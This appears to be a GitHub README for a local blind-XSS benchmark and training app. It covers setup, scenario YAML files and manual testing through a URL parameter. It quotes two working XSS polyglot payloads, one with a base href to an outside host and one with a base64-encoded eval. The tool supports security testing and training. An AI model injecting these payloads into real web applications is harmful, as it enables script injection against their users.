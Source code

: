 # bXSS Benchmark

![alt text](img/-bxss--is-centered-and-dark-blue.png)

## Objective

**bXSS Benchmark** is a web application designed to evaluate and benchmark the effectiveness of blind XSS (Cross-Site Scripting) polyglot payloads against a variety of real-world scenarios. It provides a structured environment for security researchers and developers to test, compare, and analyze payloads in different contexts, helping to improve web application security. It also can be use to train your XSS skills.

As the XSS gym training developed by brutelogic is no longer accessible, this project is a local alternative. I try to integrated his previous scenario as reference, but this integration isn't fully finnished.

It is a side project, do not hesitate to report issues. I will try to fix them as soon as possible !

PS: I would not recommend to expose this app pubicly, no security measures have been deployed and the app is still under development. 

---

## Features

- **Scenario-Based Testing:** Test payloads against a curated set of XSS scenarios.
- **Payload Management:** Add, edit, and manage XSS payloads.
- **Automated and Headless Testing:** Run tests automatically in headless mode.
- **Result Tracking:** View and analyze the effectiveness of payloads.
- **Extensible:** Easily add new scenarios via YAML files.
- **Training:** Practice your xss skills in different contexts.

---

## Installation

### Prerequisites

- [Docker](https://www.docker.com/) (optional, for containerized setup)

### Clone the Repository

```bash
git clone https://github.com/your-org/xss-benchmark.git
cd xss-benchmark
```


## Running the Application

```bash
docker compose up --build
sudo echo 'xsslab_app 127.0.0.1' >> /etc/hosts
```

The application will be available at [http://xsslab_app:9090](http://xsslab_app:9090).

---

## Running Tests

go to webapp, in the home page add your payload and run a benchmark.

Payloads examples:

```html 
Brutelogic bxss
JavaScript://%250Aalert?.(1)// '/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!--> </Title/</Style/</Script/</textArea/</iFrame/</noScript> \74k<K/contentEditable/autoFocus/OnFocus= /*${/*/;{/**/(alert)(1)}//><Base/Href=//X55.is\76-->

Basic bxss
"><svg/onload=eval(atob('YWxlcnQoImJ4c3MiKQ=='))>// 

```

### Manual tests
You want to improve your payload and modify it manually?
1. Go to the Scenarios page
2. Click on the scenario you want to test.
3. In the url add "?payload=" followed by your payload
4. Press enter :)

---

## Adding a New Scenario

1. **Edit the Scenario YAML File**

   Add your new scenario to the main YAML file, e.g. `app/scenarios/TBD/scenarios.yaml`, following the existing format.

2. **Extract Scenario Files**

   Use the provided script to split scenarios into individual YAML files:

   ```bash
   bash scripts/extract_scenarios.sh
   ```

   This will generate scenario files in `app/scenarios/definitions/`.

3. **Verify Scenario Loading**

   The application loads scenarios from the definitions directory at startup or when you click on the button in the scenario web page.

4. **Test Your Scenario**

   - Visit `/scenarios` in the web UI to see your new scenario.
   - Test with different payloads, using the 'payload=' url parameter

---

## Directory Structure

```
app/
  controllers/
  models/
  scenarios/
    definitions/ // scenario defintions are there
    TBD/
  templates/
  static/
  app.py
scripts/
  extract_scenarios.sh
tests/
README.md
requirements.txt
```

---

## Contributing

- Fork the repository and create a feature branch.
- Submit pull requests with clear descriptions.
- Follow PEP8 and project-specific code style.

---

## License

[MIT License](LICENSE)

---

## Contact

For questions or support, please open an issue or contact the maintainer.


## TBD
For js_snippet insert the payload in a custom js file. Because for brutelogic xss gym, there is redundancy
Brutelogic filtered is probably when quote are backslashed
add scenario : script src in head section 